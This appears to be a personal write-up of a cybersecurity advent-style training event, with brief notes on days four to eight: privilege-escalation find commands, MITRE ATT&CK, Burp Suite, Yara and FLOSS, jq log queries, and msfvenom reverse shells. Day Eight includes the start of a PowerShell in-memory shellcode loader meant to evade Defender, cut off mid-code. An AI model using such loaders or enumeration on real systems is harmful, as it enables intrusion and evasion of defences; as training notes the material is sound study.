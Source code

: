 >| `find / -perm -4000 -type f 2>/dev/null` | 	Finds SUID (Set User ID) files, useful in privilege escalation attempts as it can sometimes be leveraged to execute binary with privileges of its owner (which is often root) |
>| `find / -writable -type  f 2>/dev/null \| grep -v "/proc/"` | 	Also helpful in privilege escalation attempts used to find files with writable permissions |

### DAY FOUR ###

Oof... Well that was something! It took me a bit to understand what I should do but it clicked! ANd I got to the finish line after all! It was mainly about MITRE and AtomicTests with some simple example of how would a Sigma rule look like.
[THIS](https://attack.mitre.org/) is useful... very useful indeed! Otherwise poking and prodding around to find what would work and such

### DAY FIVE ###

This one was really fun, straightforward and pretty 'hands-on'. Teaching how to use Burp Suite to intercept, modify and repeat the requests to leverage bugs and inject payloads or run commands on compromised machine. A good practice is to use `libxml_disable_entity_loader(true)`  before parsing any XML in code and also it's good to sanitise user input, no matter what. Other than just a fun little quick Burp Suite tutorial it wasn't anything specially difficult.
Burp Suite can be found [HERE](https://portswigger.net/burp/communitydownload)

### DAY SIX ###

In this one we played with sandbox to try Yara and FLOSS. Yara is great for detecting malicious looking code that tries to run and FLOSS is like `strings` but even more targeted for malware. Very simple day, quick analysis and that's that.

### DAY SEVEN ###

This day greeted me with a nice tool, JQ and it's QL! It's very useful for parsing JSON and with a pipe and tables we can get the output in a very readable format, straight in the terminal. Othwerwise day was full of JQ syntax and log-reading to get the information we're after.

For future reference:

> `jq -r '["Event_Time", "Event_Name", "User_Name", "Bucket_Name", "Key", "Source_IP"],(.Records[] | select(.eventSource == "s3.amazonaws.com" and .requestParameters.bucketName=="wareville-care4wares") | [.eventTime, .eventName, .userIdentity.userName // "N/A",.requestParameters.bucketName // "N/A", .requestParameters.key // "N/A", .sourceIPAddress // "N/A"]) | @tsv' cloudtrail_log.json | column -t -s $'\t'`

### DAY EIGHT ###

Okay, it's getting fun! Today we learned about `msfvenom` that's used to create code to get reverse shell. We also got a bit of PowerShell code to execute it and run it without defender noticing because it was ran in ram. Pretty simple and straightforward yet again.

>```C#
>$VrtAlloc = @"
>using System;
>using System.Runtime.InteropServices;
>
>public class VrtAlloc{
>    [DllImport("kernel32")]
>    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
>}
>"@
>
>Add-Type $VrtAlloc 
>
>$WaitFor= @"
>using System;
>using System.Runtime.InteropServices;